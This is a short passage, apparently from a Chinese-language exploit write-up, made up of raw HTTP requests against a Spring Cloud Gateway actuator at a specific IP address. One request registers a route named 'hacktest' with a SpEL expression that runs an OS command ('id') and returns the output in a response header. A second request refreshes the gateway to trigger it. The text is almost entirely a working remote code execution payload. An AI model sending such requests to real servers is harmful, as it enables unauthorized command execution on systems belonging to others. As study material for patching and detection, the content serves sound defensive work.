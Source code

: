 ~~~
POST /actuator/gateway/refresh HTTP/1.1
Host: 101.43.138.109:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
~~~

![image-20220304150755617](TyporaPicture/image-20220304150755617-16463882245871.png)

命令执行回显payload，将回显结果放在header里面

~~~
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: 101.43.138.109:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 333

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
~~~
